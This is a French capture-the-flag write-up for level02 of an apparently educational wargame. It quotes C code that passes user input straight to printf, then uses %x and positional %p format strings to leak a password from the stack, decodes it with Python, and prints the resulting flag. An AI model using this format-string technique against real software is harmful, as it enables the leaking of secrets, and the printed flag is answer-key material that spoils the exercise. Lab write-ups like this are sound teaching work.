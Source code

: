 1. La faille se trouve sur la fin du programme.
   ```
   printf("--[ Username: ");
   fgets(format, 100, stdin);
   format[strcspn(format, "\n")] = 0;
   [...]
   printf(format);
   puts(" does not have access!");
   exit(1);
   ```

2. On trouve l'offset du printf.
   ```
   >>> ('%x ' * 100)[:100]
   '%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %'
   ```
   ```
   level02@OverRide:~$ ./level02
   ===== [ Secure Access System v1.0 ] =====
   /***************************************\
   | You must login to access this system. |
   \**************************************/
   --[ Username: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
   --[ Password: pelo
   *****************************************
   ffffe4f0 0 70 2a2a2a2a 2a2a2a2a ffffe6e8 f7ff9a08 6f6c6570 0 0 0 0 0 0 0 0 0 0 0 0 0 34376848 61733951 574e6758 6e475873 664b394d 0 25207825 20782520 78252078 25207825 20782520 78252078 does not have access!
   ```
   > On voit la valeur `25207825` => `'25207825'.decode("hex")` => `"% x%"`
   On va donc utiliser la 28e valeur.

4. En sachant que `ptr` (qui contient la valeur du pass) se trouve a la position `rbp-0xa0` et que `format` qui contient notre input se trouve a `rbp-0x70`. On sait qu'il faut decaler notre pointeur de 48bits, etant donne que `%p` affiche 8bits on peut faire le calcul suivant `28 - (48 / 8) = 22` afin de connaitre la position du premier octet du pass. On sait que le token fait `40 char` de long, on peut donc en deduire qu'il faudra afficher 5 fois 8 octets.

5. On affiche les donnees
   ```
   (echo '%22$p %23$p %24$p %25$p %26$p'; echo 'pelo'; ) | ./level02
   ===== [ Secure Access System v1.0 ] =====
   /***************************************\
   | You must login to access this system. |
   \**************************************/
   --[ Username: --[ Password: *****************************************
   0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!

   python -c "print ''.join([v.decode('hex')[::-1] for v in ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']])"
   ```

> Flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

